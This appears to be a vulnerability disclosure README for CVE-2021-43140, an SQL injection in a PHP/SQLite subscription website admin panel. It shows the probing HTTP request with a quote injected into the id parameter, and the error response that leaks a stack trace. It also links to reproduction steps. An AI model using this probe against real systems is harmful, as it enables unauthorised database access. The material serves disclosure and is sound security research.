 ## [CVE-2021-43140](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-43140)
## [Vendor](https://www.sourcecodester.com/php/15013/simple-subscription-website-admin-panel-php-and-sqlite-source-code.html)
![](https://github.com/nu11secur1ty/CVE-mitre/blob/main/CVE-2021-43140/docs/Screenshot%202021-11-13%20194441.png)

## Description:
The id parameter appears to be vulnerable to SQL injection attacks. A single quote was submitted in the id parameter, and a general error message was returned. Two single quotes were then submitted and the error message disappeared. You should review the contents of the error message, and the application's handling of other input, to confirm whether a vulnerability is present.


## MySQL Request:

```sql
GET /plan_application/?page=apply&id=4' HTTP/1.1
Host: 192.168.1.2
Cookie: PHPSESSID=jtble9h28f0v3kh3op1ivmm9k4
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Upgrade-Insecure-Requests: 1
Referer: http://192.168.1.2/plan_application/?page=view_plan&id=4
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en-GB;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Connection: close
Cache-Control: max-age=0
```

## MySQL Response:

```sql
HTTP/1.1 200 OK
Date: Sat, 13 Nov 2021 15:03:36 GMT
Server: Apache/2.4.51 (Win64) OpenSSL/1.1.1l PHP/7.4.24
X-Powered-By: PHP/7.4.24
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 3991
Connection: close
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta http-equiv="X-UA-Compatible" content="IE=edge">
<meta name="viewport" content="width=device-width, initial-scale=1
...[SNIP]...
</b>: Uncaught Error: Call to a member function fetchArray() on bool in C:\xampp\htdocs\plan_application\apply.php:4
Stack trace:
#0 C:\xampp\htdocs\plan_application\index.php(98): include()
#1 {main}
thrown in <b>
...[SNIP]...
```

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-mitre/tree/main/CVE-2021-43140)

## Proof:
[href](https://streamable.com/hxbqz4)
